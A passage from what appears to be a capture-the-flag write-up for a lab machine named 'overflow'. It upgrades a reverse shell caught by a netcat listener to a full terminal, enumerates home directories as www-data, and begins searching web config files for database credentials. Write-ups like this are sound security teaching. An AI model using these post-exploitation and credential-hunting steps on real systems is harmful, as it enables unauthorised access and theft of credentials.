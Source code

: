 I’ll upgrade my shell using `script`:

```

$ script /dev/null -c bash
Script started, file is /dev/null
www-data@overflow:~/devbuild-job/home/profile$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@overflow:~/devbuild-job/home/profile$

```

## Shell as developer

### Enumeration

#### Homedirs

There are two users with home directories on the box:

```

www-data@overflow:/home$ ls
developer  tester

```

There’s not much in either, but `user.txt` is in `tester` and www-data cannot read it:

```

www-data@overflow:/home$ find . -type f -ls
   148204      4 -rw-r-----   1 root     tester         33 May 31 18:19 ./tester/user.txt
find: './tester/.cache/motd.legal-displayed': Permission denied
find: './tester/.ssh': Permission denied
   145046      4 -rw-r--r--   1 root     root         3151 May 30 19:15 ./tester/.bashrc
   150156      4 -rwxrwxr--   1 tester   tester        822 May 30 19:16 ./tester/.profile
find: './tester/.gnupg/private-keys-v1.d': Permission denied
find: './developer/.cache': Permission denied
find: './developer/.ssh': Permission denied
   151039      4 -rw-r--r--   1 developer root         3106 May 28 08:21 ./developer/.bashrc
   149153      4 -rw-r--r--   1 root      root           15 May 30 19:16 ./developer/.profile
find: './developer/.gnupg': Permission denied

```

#### DBs

A common place to look for creds is in the connections to the DB in the web files. `/var/www/html/config/db.php` has connection info for the Overflow site as developer:

